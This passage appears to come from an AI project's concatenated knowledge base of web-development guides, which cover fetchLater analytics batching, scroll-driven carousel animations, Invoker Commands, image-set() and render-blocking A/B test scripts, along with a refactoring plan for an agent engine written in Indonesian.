  if (fetchLaterResult?.activated || eventQueue.length > MAX_QUEUE_SIZE) {
    fetchLaterController = null;
    fetchLaterResult = null;
    eventQueue.length = 0;
  }

  eventQueue.push(eventData);

  // Abort any pending beacons before creating a new one.
  if (fetchLaterController) {
    fetchLaterController.abort();
  }
  fetchLaterController = new AbortController();

  // Schedule a fetch for the events to be sent when the batch window expires.
  // IMPORTANT: wrap the call in a try/catch to handle quota errors.
  try {
    fetchLaterResult = fetchLater(ANALYTICS_ENDPOINT, {
      method: 'POST',
      headers: {'content-type': 'application/json'},
      body: JSON.stringify(eventQueue),
      signal: fetchLaterController.signal,
      activateAfter: BATCH_WINDOW,
    });
  } catch (error) {
    // Handle errors as needed.
  }
}

// Track page loads.
window.addEventListener('load', () => {
  trackEvent({type: 'page_load'});
});

// Track click events.
window.addEventListener('click', (event) => {
  trackEvent({type: 'click', target: serializeElement(event.target)});
});
```

## Best Practices

- **DO** use `fetchLater()` with the `activateAfter` option set to batch multiple analytics events that occur within close proximity of each other.
- **DO** use an `AbortController` to cancel the pending fetch in cases where a new analytics event occurs.
- **DO** check to ensure you do not batch too many events together and exceed the `fetchLater()` quota (currently roughly 64KB per origin).
- **DO** wrap calls to `fetchLater()` in a `try/catch` to handle quota errors.
- **DO** feature detect the presence of `fetchLater()` on `globalThis` and implement a fallback strategy for browsers that don't support the API.
- **DO NOT** use a `ReadableStream` object for the request body, as that will error.

## Browser support and fallback strategies

fetchLater has limited availability.
Supported by: Chrome 135 (Apr 2025) and Edge 135 (Apr 2025).
Unsupported in: Firefox and Safari.. Therefore, a fallback strategy is typically required.

However, given the improved reliability and performance benefits of this API, `fetchLater()` should be used if the browser supports it.

### `fetchLater()` polyfill

Use the following minimal `fetchLater()` polyfill, which implements the API as closely as possible in unsupporting browsers.

The only notable behavior difference with this polyfill is instead of sending the payload when the user leaves the page, it sends it whenever the page's `visibilityState` changes to "hidden", since this is the most reliable end-of-session signal that's widely available today.

```js
globalThis.fetchLater ??= function fetchLater(url, init = {}) {
  let timeoutHandle;
  let activated = false;

  function sendNow() {
    if (!(init.signal && init.signal.aborted)) {
      // Use fetch keepalive if the browser supports it or if custom fetch
      // parameters are specified (e.g. custom headers or methods).
      // Otherwise fall back to `navigator.sendBeacon()`.
      if (
        'keepalive' in Request.prototype ||
        init.method !== 'POST' ||
        init.headers
      ) {
        fetch(url, Object.assign({}, init, {keepalive: true}));
        activated = true;
      } else {
        activated = navigator.sendBeacon(url, init.body);
      }
    }
    destroy();
  }

  function destroy() {
    document.removeEventListener('visibilitychange', sendNow);
    clearTimeout(timeoutHandle);
  }

  if (document.visibilityState === 'hidden') {
    // If the beacon was created while the page is already hidden, send data
    // ASAP but wait until the next microtask to allow all sync code to run.
    queueMicrotask(sendNow);
  } else {
    document.addEventListener('visibilitychange', sendNow);

    if (typeof init.activateAfter === 'number' && init.activateAfter >= 0) {
      timeoutHandle = setTimeout(sendNow, init.activateAfter);
    }
  }

  if (init.signal) {
    init.signal.addEventListener('abort', destroy);
  }

  return {
    get activated() {
      return activated;
    },
  };
};
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [performance, api]

### 📘 KNOWLEDGE: NEXUS_CAROUSEL-SLIDE-EFFECTS.MD

# Build Carousel Slide Effects
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Carousel slide effects are a great way to add visual interest to a carousel. As the user scrolls through the slides, each slide can animate as it enters, centers, and exits the scrollport. For example, the slides can fade in and out, rotate, or scale in size. This creates a dynamic and engaging user experience. Unlike simple entry/exit animations, this effect uses a single, continuous animation to control the slide's appearance across the entire scrollport.

## How to implement

Here’s how to create carousel slide effects:

1.  **Create a scroller:** This element will act as the container for your carousel slides. In this example it uses `overflow-x: scroll` to allow horizontal scrolling.

    ```html
    <ul class="scroller">
      <li class="entry">1</li>
      <li class="entry">2</li>
      <li class="entry">3</li>
      …
    </ul>
    ```

    ```css
    .scroller {
      overflow-x: scroll;
    }
    ```

2.  **Define the animation:** Create a CSS animation that defines the different states of your slides as they traverse the scrollport. You can define keyframes for any part of the animation. For example, you can define a state for when the slides are in the center of the scrollport by including a `50%` keyframe. In this example, the `scale` property makes the slides grow as they approach the center and shrink as they move away.

    ```css
    @keyframes animate {
      0% {
        scale: 0.5;
      }
      50% {
        scale: 1;
      }
      100% {
        scale: 0.5;
      }
    }
    ```

3.  **Apply the animation and `view-timeline`:** Attach the animation to the carousel slides and link it to a `view-timeline` that tracks the element as it scrolls through the container.

    ```css
    .scroller > * {
      animation: animate auto linear both;
      animation-timeline: view(inline);
    }
    ```

    By default, `view()` tracks the element on the `block` axis. If you need to track it on the `inline` axis, you can use `view(inline)`.

## Example code

This code animates the carousel items of a horizontal scroller on scroll using an **anonymous view-timeline**:

```css
@keyframes animate {
  0% {
    scale: 0.5;
  }

  50% {
    scale: 1;
  }

  100% {
    scale: 0.5;
  }
}

.scroller > * {
  /* Applies the animation using an `auto` duration */
  animation: animate auto linear both;
  /* Sets the animation timeline to use an anonymous view progress timeline, tracking the element's progress through the scroller on the inline axis */
  animation-timeline: view(inline);
}
```

This code animates the carousel items of a horizontal scroller on scroll using a **named view-timeline**:

```css
@keyframes animate {
  0% {
    scale: 0.5;
  }

  50% {
    scale: 1;
  }

  100% {
    scale: 0.5;
  }
}

/* This creates a named view-timeline on each carousel item. The timeline is used to drive the animation that is applied on the same element. */
.scroller > * {
  /* Applies the animation using an `auto` duration */
  animation: animate auto linear both;
  /* Defines a named view progress timeline, tracking the element's progress through the scroller on the inline axis */
  view-timeline: --item inline;
  /* Sets the animation timeline to use the named view progress timeline defined above */
  animation-timeline: --item;
}
```

## Best Practices

When using scroll-driven animations, it's important to follow a few best practices to ensure a smooth and accessible experience:

- **DO** include feature detection: Not all browsers support scroll-driven animations. Use `@supports ((animation-timeline: view()) and (animation-range: entry))` to check for support and provide a fallback for browsers that don't support it.
  - The `(animation-range: entry)` check **MUST** be included here, to filter out browsers with only partial support.
  - **DO NOT** use the `scroll-timeline-polyfill` package for the fallback strategy as it is not feature complete and has a lot of known issues.
  - If the animation is only considered to be decorative, opt for Progressive Enhancement and **DO NOT** provide a fallback.
- **DO** respect user preferences: Some users prefer to have less motion on the web. Use the `prefers-reduced-motion` media query to disable or reduce your animations for these users.
- **DO** try to animate only performant CSS properties: For the smoothest animations, stick to animating properties that can be handled by the browser's compositor thread, such as `transform` and `opacity`. Animating other properties like `width` or `height` can lead to performance issues.
- **DO** use the correct declaration order: When using the `animation` shorthand property, declare `animation-timeline` and `animation-range` *after* it to prevent the shorthand from resetting the timeline.

Prefer a named `view-timeline` when multiple DOM elements need to animate based on the same timeline, or when you need to animate children of the element that has the `view-timeline` defined on it. If the element that you animate is also the element that defines the `view-timeline`, you can use an anonymous view-timeline using `view()`.

When using the `view()` function to create a scroll-driven animation:

- **OPTIONAL** be explicit about the axis to track: When not targeting the default `block` axis (such as in a horizontal scroller), be explicit about which axis to track with `view(block)` or `view(inline)`.

When using the `view-timeline` property to create a scroll-driven animation:

- **DO** use a CSS `<dashed-ident>` for the name (e.g. `view-timeline: --my-custom-name`)
- **OPTIONAL** be explicit about the axis to track: When not targeting the default `block` axis (such as in a horizontal scroller), be explicit about which axis to track with `view-timeline-axis`.
- **DO** make sure the scope of the lookup works: When the element that is declaring the `view-timeline` is not a flat tree ancestor of the animated element, hoist up the visibility of the `view-timeline`’s name by using `timeline-scope` on a shared ancestor.

## Browser support and fallback strategies

Scroll-driven animations has limited availability.
Supported by: Chrome 115 (Jul 2023), Edge 115 (Jul 2023), and Safari 26 (Sep 2025).
Unsupported in: Firefox.. Therefore, a fallback strategy is typically required.

For browsers that do not support scroll-driven animations, you can use a fallback to recreate the visual effects. The fallbacks are typically built with either a scroll listener (for ScrollTimeline effects) or the IntersectionObserver API (for ViewTimeline effects).

In browsers with built-in support for scroll-driven animations, ALWAYS use the native CSS implementation as those are more performant.

Note that not every effect can be recreated using the fallbacks approach.

For this use-case specifically, the following script applies the fallback for browsers that do not support scroll-driven animations. It uses the Web Animations API (`Element.animate()`) to create a paused animation for each item in the carousel. It then listens to the `scroll` event on the scroller and updates the `currentTime` of each animation based on the item's scroll progress within the scroller.

```js
// Fallback for browsers that don't support scroll-driven animations
if (!CSS.supports('(animation-timeline: view()) and (animation-range: entry)')) {
  const scroller = document.querySelector('.scroller');
  const entries = document.querySelectorAll('.entry');

  // Create a map to store animations
  const animations = new Map();

  entries.forEach(entry => {
    const animation = entry.animate(
      {
        scale: ['0.5', '1', '0.5']
      },
      {
        duration: 1, // We'll control the time ourselves
        fill: 'both'
      }
    );
    animation.pause();
    animations.set(entry, animation);
  });

  // Update animations on scroll
  const tick = () => {
    const scrollerRect = scroller.getBoundingClientRect();

    entries.forEach(entry => {
      const animation = animations.get(entry);
      if (!animation) return;

      const entryRect = entry.getBoundingClientRect();
      const progress = (entryRect.left + entryRect.width / 2 - scrollerRect.left) / scrollerRect.width;

      animation.currentTime = progress;
    });
  };
    
  scroller.addEventListener('scroll', tick);
  tick();
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [performance, api]

### 📘 KNOWLEDGE: NEXUS_CORE_MODULARIZATION.MD

# 🏛 Implementation Plan: Nexus Core Modularization & Simplification
> **VERSION**: v1 | **Last Updated**: 26/05/2026


> **Project:** Human-AI Nexus v3.3.0
> **Target:** `agent/core/` (Orchestration Layer)
> **Objective:** Break down the monolithic `NexusEngine.js` into specialized phase-based modules to improve maintainability, performance, and scalability.

---

## 1. Problem Identification
Saat ini, `NexusEngine.js` telah berkembang menjadi "God Object" dengan ukuran >60KB dan >1,300 baris kode. Hal ini menyebabkan:
- **High Cognitive Load**: Sulit untuk men-debug satu fase tanpa terganggu logika fase lain.
- **Redundancy**: Logika utility (seperti `globRecursive` dan `pathResolve`) diulang-ulang di beberapa file core.
- **Tight Coupling**: Sulit untuk mengganti satu komponen (misal: mesin AI) tanpa menyentuh seluruh engine.

---

## 2. Proposed Architecture (Modular Phase Pattern)

Kami akan memindahkan logika dari `NexusEngine.js` ke dalam sub-direktori `agent/core/phases/`.

### A. Phase Modules
| Module | Responsibility | Source Logic |
|---|---|---|
| `AuditPhase.js` | Specialist agent activation, consensus, findings consolidation. | `NexusEngine.audit()` |
| `PlanningPhase.js` | Task decomposition, AI prioritization, blueprinting. | `NexusEngine.plan()` |
| `ExecutionPhase.js` | Code modification, TDD guardrails, Stability verification. | `NexusEngine.execute()`, `cleanCodeAndVerify()` |
| `KnowledgePhase.js` | Harvesting, Distillation, Hub standardization. | `NexusEngine.harvest()`, `distill()` |

### B. Shared Infrastructure
- `BasePhase.js`: Base class untuk semua fase (logging, common config, error handling).
- `CoreUtils.js`: Konsolidasi fungsi I/O (glob, recursive deletion, path normalization).

---

## 3. Step-by-Step Implementation

### Step 1: Foundation (Infrastructure)
- Buat folder `agent/core/phases/`.
- Buat `CoreUtils.js` dan pindahkan fungsi `globRecursive` dan `resolvePath` ke sana.
- Update semua file core untuk menggunakan utility terpusat ini.

### Step 2: Extraction (Phase by Phase)
1. **Audit Phase**: Pindahkan logika pemilihan agent dan paralel audit.
2. **Execution Phase**: Pindahkan logika `cleanCodeAndVerify` dan `stability loop`. Pindahkan penggunaan `Modifier` dan `TDDGuard`.
3. **Planning Phase**: Pindahkan logika blueprinting dan task generation.
4. **Knowledge Phase**: Pindahkan integrasi dengan `Distiller` dan `MemoryPipeline`.

### Step 3: NexusEngine Refactoring
Ubah `NexusEngine.js` menjadi orkestrator ramping:
```javascript
async runCycle() {
    const report = await this.auditPhase.run();
    const plan = await this.planningPhase.run(report);
    await this.executionPhase.run(plan);
    await this.knowledgePhase.run();
}
```

### Step 4: Optimization (Optional CPP)
- Evaluasi `SemanticEngine.js` untuk konversi ke C++ (via `napi-rs` atau `node-gyp`) hanya jika pencarian vektor atau indexing menjadi bottleneck nyata.

---

## 4. Benefit Analysis
- **Simplification**: `NexusEngine.js` akan berkurang hingga <300 baris.
- **Testability**: Tiap fase dapat di-test secara terisolasi (Unit Testing per Phase).
- **Scalability**: Memungkinkan penambahan fase baru (misal: `SecurityHardeningPhase`) tanpa merusak alur utama.
- **Memory Efficiency**: Menghindari pemuatan seluruh logika jika hanya satu fitur yang digunakan (misal: `nexus audit`).

---

## 5. Timeline & Priority
1. **High**: Extraction of `AuditPhase` & `ExecutionPhase` (Today).
2. **Medium**: Consolidation of `CoreUtils` & `BasePhase` (Today).
3. **Low**: Refactoring of `Distiller` and future CPP consideration (Next Sprint).

---
*Generated by Antigravity AI | Human-AI Nexus Core Refinement Protocol*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [performance, tdd]

### 📘 KNOWLEDGE: NEXUS_DECLARATIVE-BUTTON-ACTIONS.MD

# Declarative Button Actions
> **VERSION**: v1 | **Last Updated**: 26/05/2026


The Invoker Commands API allows buttons to trigger actions on target elements declaratively using HTML attributes. This approach reduces the need for manual event listeners and ensures interactivity as soon as the HTML is parsed.

For custom, application-specific actions, you can define your own command names. Custom commands must be prefixed with a double dash (`--`) to avoid collisions with future built-in browser commands.

## Implementation steps

1.  **Define the target element**: Identify the element that will respond to the action. It must have a unique `id`.
2.  **Configure the invoker button**: Use the `commandfor` attribute to point to the target's `id`, and the `command` attribute to specify the custom command name (prefixed with `--`).
3.  **Handle the command event**: Attach a `command` event listener to the `document` (or a common parent). This ensures that the event is captured even if it is dispatched by a polyfill or from a child element. The event object contains a `command` property and a `target` property (referring to the element identified by `commandfor`).

## Example: Custom Animation Controls

```html
<!-- The target element that will respond to custom commands -->
<div id="action-target" class="target">
  Action Target
</div>

<!-- Buttons declaratively linked to the target element -->
<!-- Each button sends a unique custom command starting with '--' -->
<button commandfor="action-target" command="--spin">
  Spin
</button>

<button commandfor="action-target" command="--grow">
  Grow
</button>

<button commandfor="action-target" command="--reset">
  Reset All
</button>

<script>
  // Listen for the 'command' event directly on the target element
  // (This is necessary because the native 'command' event does not bubble)
  document.getElementById('action-target').addEventListener('command', (event) => {
    // Robustly handle both native API and manual/polyfill fallbacks
    const command = event.command || event.detail?.command;
    const target = event.currentTarget;

    // Custom commands are checked to identify the requested action
    if (command === '--spin') {
      target.classList.toggle('is-spun');
    } else if (command === '--grow') {
      target.classList.toggle('is-grown');
    } else if (command === '--reset') {
      // Clear all custom classes to return to initial state
      target.classList.remove('is-spun', 'is-grown');
    }
  });
</script>
```

## Key constraints

*   **Prefix custom commands**: MANDATORY: All custom command names must start with `--` (e.g., `command="--my-action"`).
*   **Targeting**: The `commandfor` attribute must match the `id` of an element in the same document tree.

## Fallback strategies

Baseline status for Invoker commands: Newly available. It's been Baseline since 2025-12-12.
Supported by: Chrome 135 (Apr 2025), Edge 135 (Apr 2025), Firefox 144 (Oct 2025), and Safari 26.2 (Dec 2025).

If the Invoker Commands API is not supported, the `command` event will not fire. For full support across all modern browsers, it is recommended to use the invokers-polyfill from https://github.com/keithamus/invokers-polyfill via `npm install` or CDN.

This polyfill fully supports custom actions (starting with `--`) and dispatches the `command` event exactly like the native API.

### Dynamic Import (Performance Optimization)

For the best performance, you should only load the polyfill if the browser doesn't support the API natively. This saves bandwidth and reduces script execution time for users on modern browsers.

```javascript
// Check for native support first
const hasNativeSupport = 'commandForElement' in HTMLButtonElement.prototype;

if (!hasNativeSupport) {
  // Dynamically import the polyfill only when needed
  try {
    await import('https://cdn.jsdelivr.net/npm/invokers-polyfill@latest/dist/index.min.js');
    console.log('Invoker Commands polyfill loaded');
  } catch (err) {
    console.error('Error loading fallback:', err);
  }
}
```

### Manual fallback (Traditional pattern)

If you prefer not to use a polyfill, you can use a combination of **event delegation** to dispatch events and a **command registry** to handle the actions. This is a common architectural pattern in traditional JavaScript development that remains highly efficient and scalable.

```javascript
// 1. Define a registry of requested actions for cleaner logic
const commandRegistry = {
  '--spin': (target) => target.classList.toggle('is-spun'),
  '--grow': (target) => target.classList.toggle('is-grown'),
  '--reset': (target) => target.classList.remove('is-spun', 'is-grown'),
};

const supportsInvokers = 'commandForElement' in HTMLButtonElement.prototype;

// 2. The fallback: Dispatch events manually if native support is missing
if (!supportsInvokers) {
  document.addEventListener('click', (event) => {
    const button = event.target.closest('button[commandfor]');
    if (!button) return;

    const target = document.getElementById(button.getAttribute('commandfor'));
    const command = button.getAttribute('command');

    if (target && command) {
      target.dispatchEvent(new CustomEvent('command', {
        bubbles: true,
        detail: { command }
      }));
    }
  });
}

// 3. The unified listener: Registered directly on the target element
document.getElementById('action-target').addEventListener('command', (event) => {
  const command = event.command || event.detail?.command;
  const target = event.currentTarget;
  const action = commandRegistry[command];

  if (action) {
    action(target);
  }
});
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [performance, api]

### 📘 KNOWLEDGE: NEXUS_DELIVER-OPTIMIZED-DECORATIVE-IMAGES.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

Delivering optimized decorative images via CSS improves perceived performance without sacrificing visual quality. By using the `image-set()` CSS function, you can provide the browser with multiple options for a single background or mask image. You can specify modern formats (like AVIF or WebP) alongside different resolutions (like `1x` and `2x`). The browser will dynamically select the smallest compatible image that provides the appropriate pixel density for the user's device.

**CAUTION**: If the image is likely to be the Largest Contentful Paint (LCP) element (e.g., a large hero banner), be aware that images referenced in CSS via image-set() are not discoverable by the browser's preload scanner. This can significantly delay image loading and harm LCP. For LCP candidates, consider using a standard HTML  or <picture> tag instead or alternatively, preloading the image as well using `<link rel=preload>` option with a `media` attribute.

### Implementation

The `image-set()` function is used anywhere CSS expects an `<image>` value, most commonly in `background-image`, `content`, or `mask-image`. Note that while providing both the image format via `type()` and the resolution (like `1x` or `2x`) yields the best results, both of these arguments are optional. 

```css
.gallery-item {
  /* Provide multiple resolutions and formats using image-set() */
  /* MANDATORY: Always order your formats from most optimized (AVIF) to least optimized (JPEG/PNG). 
     The browser will stop at the first supported format. */
  background-image: image-set(
    url("gallery.avif") type("image/avif") 1x,
    url("gallery-2x.avif") type("image/avif") 2x,
    url("gallery.webp") type("image/webp") 1x,
    url("gallery-2x.webp") type("image/webp") 2x,
    url("gallery.jpg") type("image/jpeg") 1x,
    url("gallery-2x.jpg") type("image/jpeg") 2x
  );
  
  /* Standard decorative properties */
  background-size: cover;
  background-position: center;
}
```

### Fallback strategies

Baseline status for image-set(): Widely available. It's been Baseline since 2023-09-18.
Supported by: Chrome 113 (May 2023), Edge 113 (May 2023), Firefox 89 (Jun 2021), and Safari 17 (Sep 2023).

For older browsers that do not support the `image-set()` function, you **MUST** provide a standard image declaration *before* the `image-set()` rule. This progressive enhancement strategy relies on CSS's cascading nature: unsupported rules are ignored.

```css
.gallery-item {
  /* MANDATORY: Fallback for browsers that do not support image-set() */
  background-image: url("gallery.jpg");
  
  /* Modern browsers will apply this and override the fallback */
  background-image: image-set(
    url("gallery.avif") type("image/avif") 1x,
    url("gallery-2x.avif") type("image/avif") 2x,
    url("gallery.jpg") type("image/jpeg") 1x,
    url("gallery-2x.jpg") type("image/jpeg") 2x
  );
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [performance]

### 📘 KNOWLEDGE: NEXUS_DISTILLATION_PERFORMANCE.MD

> **VERSION**: v3 | **Last Updated**: 26/05/2026


## 🎓 PERFORMANCE WISDOM DISTILLATION [v1109] - 26/05/2026
> **Protocol**: Autonomous Intelligence Extraction | **Focus**: Actionable Tech Insights

### 📄 Build Carousel Slide Effects
> **Origin**: `guides/user-experience/[carousel-slide-effects.md](NEXUS_CAROUSEL-SLIDE-EFFECTS.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
Carousel slide effects are a great way to add visual interest to a carousel. As the user scrolls through the slides, each slide can animate as it enters, centers, and exits the scrollport. For example, the slides can fade in and out, rotate, or scale in size. This creates a dynamic and engaging user experience. Unlike simple entry/exit animations, this effect uses a single, continuous animation to control the slide's appearance across the entire scrollport.


Here’s how to create carousel slide effects:

1.  **Create a scroller:** This element will act as the container for your carousel slides. In this example it uses `overflow-x: scroll` to allow horizontal scrolling.

    ```html
    <ul class="scroller">
      <li class="entry">1</li>
      <li class="entry">2</li>
      <li class="entry">3</li>
      …
    </ul>
    ```

    ```css
    .scroller {
      overflow-x: scroll;
    }
    ```

2.  **Define the animation:** Create a CSS animation that defines the different states of your slides as they traverse the scrollport. You can define keyframes for any part of the animation. For example, you can define a state for when the slides are in the center of the...

#### 🔗 Traceability:
- [Source Context]([carousel-slide-effects.md](NEXUS_CAROUSEL-SLIDE-EFFECTS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Declarative Button Actions
> **Origin**: `guides/user-experience/[declarative-button-actions.md](NEXUS_DECLARATIVE-BUTTON-ACTIONS.MD)` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
Actions
The Invoker Commands API allows buttons to trigger actions on target elements declaratively using HTML attributes. This approach reduces the need for manual event listeners and ensures interactivity as soon as the HTML is parsed.

For custom, application-specific actions, you can define your own command names. Custom commands must be prefixed with a double dash (`--`) to avoid collisions with future built-in browser commands.

#### 🔗 Traceability:
- [Source Context]([declarative-button-actions.md](NEXUS_DECLARATIVE-BUTTON-ACTIONS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Implementation
> **Origin**: `guides/user-experience/[deliver-optimized-decorative-images.md](NEXUS_DELIVER-OPTIMIZED-DECORATIVE-IMAGES.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
Delivering optimized decorative images via CSS improves perceived performance without sacrificing visual quality. By using the `image-set()` CSS function, you can provide the browser with multiple options for a single background or mask image. You can specify modern formats (like AVIF or WebP) alongside different resolutions (like `1x` and `2x`). The browser will dynamically select the smallest compatible image that provides the appropriate pixel density for the user's device.

**CAUTION**: If the image is likely to be the Largest Contentful Paint (LCP) element (e.g., a large hero banner), be aware that images referenced in CSS via image-set() are not discoverable by the browser's preload scanner. This can significantly delay image loading and harm LCP. For LCP candidates, consider using a standard HTML  or <picture> tag instead or alternatively, preloading the image as well using `<link rel=preload>` option with a `media` attribute.


The `image-set()` function is used anywhere CSS expects an `<image>` value, most commonly in `background-image`, `content`, or `mask-image`. Note that while providing both the image format via `type()` and the resolution (like `1x` or `2x...

#### 🔗 Traceability:
- [Source Context]([deliver-optimized-decorative-images.md](NEXUS_DELIVER-OPTIMIZED-DECORATIVE-IMAGES.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Flicker-Free Client-Side A/B Testing
> **Origin**: `guides/user-experience/[flicker-free-client-side-ab-testing.md](NEXUS_FLICKER-FREE-CLIENT-SIDE-AB-TESTING.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
Client-side A/B testing tools work by loading a script that modifies the DOM after the browser has already begun constructing the page. Without intervention, the user briefly sees the original content before it flickers or flashes to the experiment variant. Testing platforms have historically worked around this with "anti-flicker snippets" that hide the entire page with `opacity: 0` until the experiment script finishes or an arbitrary timeout (typically 4 seconds) elapses. This approach sacrifices progressive rendering, allows accidental clicks on invisible content, and introduces unnecessary paint cycles.


The `blocking=render` attribute allows a `<script>` or `<link>` element placed in the `<head>` to block rendering—but not parsing—until the resource has been fetched and executed. This gives experimentation scripts the same render-blocking behavior that stylesheets have by default, ensuring the browser never paints the page until the experiment variant has been applied. No opacity hacks, no arbitrary timeouts, and no flicker.


1. **MANDATORY:** Place the experimentation script in the document `<head>` and add `blocking="render"`.
2. **MANDATORY:** Ensure the script ...

#### 🔗 Traceability:
- [Source Context]([flicker-free-client-side-ab-testing.md](NEXUS_FLICKER-FREE-CLIENT-SIDE-AB-TESTING.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Add entry and exit effects to elements as they enter or exit the scrollport
> **Origin**: `guides/user-experience/[scroll-entry-exit-effects.md](NEXUS_SCROLL-ENTRY-EXIT-EFFECTS.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
Entry and exit effects are animations that are triggered when an element enters or leaves the viewport. This can be used to create engaging and dynamic user experiences. For example, you can use an entry effect to fade in an element as it scrolls into view, or an exit effect to scale it down as it scrolls out of view.


To add entry and exit effects to an element, you need to combine a few CSS properties. Here’s a step-by-step guide:

1.  **Create separate `@keyframes` for the entry and exit animations.** The entry animation will be applied as the element enters the viewport, and the exit animation will be applied as it leaves.

    ```css
    @keyframes slide-in {
      from { transform: translateX(-100%); }
    }
    @keyframes slide-out {
      to { transform: translateX(100%); }
    }
    ```

2.  **Attach the entry and exit keyframes to the element.** You can do this by defining multiple animations in the `animation` property.

    -   Give the entry animation an `animation-fill-mode` of `backwards` so that it applies its initial state before the animation starts.
    -   Give the exit animation an `animation-fill-mode` of `forwards` so that it maintains i...

#### 🔗 Traceability:
- [Source Context]([scroll-entry-exit-effects.md](NEXUS_SCROLL-ENTRY-EXIT-EFFECTS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Build a Scroll Progress Indicator
> **Origin**: `guides/user-experience/[scroll-progress-indicator.md](NEXUS_SCROLL-PROGRESS-INDICATOR.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
A scroll progress indicator is a common user interface pattern that visually communicates the user's progress through a scrollable document or container. As the user scrolls, a visual element updates to reflect their position, providing a clear and intuitive sense of how much content has been viewed and how much remains.


To create a scroll progress indicator, you need two things:

1.  An element to act as the progress bar. This element is typically `position: fixed` or `position: absolute` so that it stays in view while the user scrolls.
2.  An animation that is linked to the scroll position.

Here’s how you can achieve this:

-   First, create an HTML element that will serve as your progress bar. This element can be styled to your liking.
-   Next, in your CSS, define a `@keyframes` animation that scales the progress bar. A common approach is to scale the element from `scaleX(0)` to `scaleX(1)`.
-   Finally, apply this animation to your progress bar element and set its `animation-timeline` to a scroll-timeline. This tells the browser to drive the animation's progress based on the scroll position of the nearest ancestor scroller.


This code grows the `#progres...

#### 🔗 Traceability:
- [Source Context]([scroll-progress-indicator.md](NEXUS_SCROLL-PROGRESS-INDICATOR.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Shrinking headder on scroll
> **Origin**: `guides/user-experience/[shrinking-header-on-scroll.md](NEXUS_SHRINKING-HEADER-ON-SCROLL.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
A shrinking header on scroll is a common UI pattern where a fixed header element at the top of the page smoothly transitions to a smaller size as the user scrolls down. This effect is often used to maximize screen real estate for the main content while keeping essential navigation or branding elements accessible. With CSS scroll-driven animations, this effect can be achieved in a declarative and performant way, by linking an animation to the scroll position of the document.


Here’s how to create a shrinking header on scroll:

1.  **Create a fixed header:** Start with a header element that is fixed to the top of the page and has a predefined height.

    ```html
    <header>HEADER</header>
    ```

    ```css
    header {
      position: fixed;
      height: 200px;
      top: 0;
      left: 0;
      right: 0;
    }
    ```

2.  **Define the shrink animation:** Create a CSS animation that changes the height of the header.

    ```css
    @keyframes shrink {
      to {
        height: 50px;
      }
    }
    ```

3.  **Apply the animation and scroll timeline:** Attach the animation to the header and use the `scroll()` function to link it to the docume...

#### 🔗 Traceability:
- [Source Context]([shrinking-header-on-scroll.md](NEXUS_SHRINKING-HEADER-ON-SCROLL.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Supporting Global Calendar Systems with Temporal
> **Origin**: `guides/user-experience/[support-global-calendar-systems.md](NEXUS_SUPPORT-GLOBAL-CALENDAR-SYSTEMS.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
The traditional JavaScript `Date` object is based on a proleptic Gregorian calendar, making it challenging to build applications for users who rely on other calendar systems, such as the Islamic (lunar), Hebrew (lunisolar), or Chinese (lunisolar) calendars. Developers previously had to rely on complex third-party libraries or manual calculations to support these systems.

The `Temporal` API provides first-class support for multiple calendar systems. By associating a calendar identifier with date objects, Temporal handles the complex arithmetic and formatting required for different cultural contexts natively.


To support global calendar systems using Temporal:

1. **Associate a Calendar (Mandatory):** When creating or converting a Temporal object (like `Temporal.PlainDate`), you must specify the desired calendar system using `withCalendar()` to perform calendar-sensitive operations.
2. **Use Stable Identifiers (Mandatory for Lunisolar Calendars):** You must use `monthCode` rather than the numeric `month` index to identify specific months across years in lunisolar calendars. Only use this for calendars that use leap months, such as the Hebrew and Chinese calendars.
3. **R...

#### 🔗 Traceability:
- [Source Context]([support-global-calendar-systems.md](NEXUS_SUPPORT-GLOBAL-CALENDAR-SYSTEMS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [performance, api]

### 📘 KNOWLEDGE: NEXUS_FLICKER-FREE-CLIENT-SIDE-AB-TESTING.MD

# Flicker-Free Client-Side A/B Testing
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## The Problem

Client-side A/B testing tools work by loading a script that modifies the DOM after the browser has already begun constructing the page. Without intervention, the user briefly sees the original content before it flickers or flashes to the experiment variant. Testing platforms have historically worked around this with "anti-flicker snippets" that hide the entire page with `opacity: 0` until the experiment script finishes or an arbitrary timeout (typically 4 seconds) elapses. This approach sacrifices progressive rendering, allows accidental clicks on invisible content, and introduces unnecessary paint cycles.

## The Solution

The `blocking=render` attribute allows a `<script>` or `<link>` element placed in the `<head>` to block rendering—but not parsing—until the resource has been fetched and executed. This gives experimentation scripts the same render-blocking behavior that stylesheets have by default, ensuring the browser never paints the page until the experiment variant has been applied. No opacity hacks, no arbitrary timeouts, and no flicker.

### Implementation Strategy

1. **MANDATORY:** Place the experimentation script in the document `<head>` and add `blocking="render"`.
2. **MANDATORY:** Ensure the script either has `type="module"` (preferred for inline scripts) or `async` (preferred for external scripts with a `src` value).
3. **DO** keep the experimentation script small and fast. Because rendering is blocked until the script executes, a large or slow script directly delays first paint.
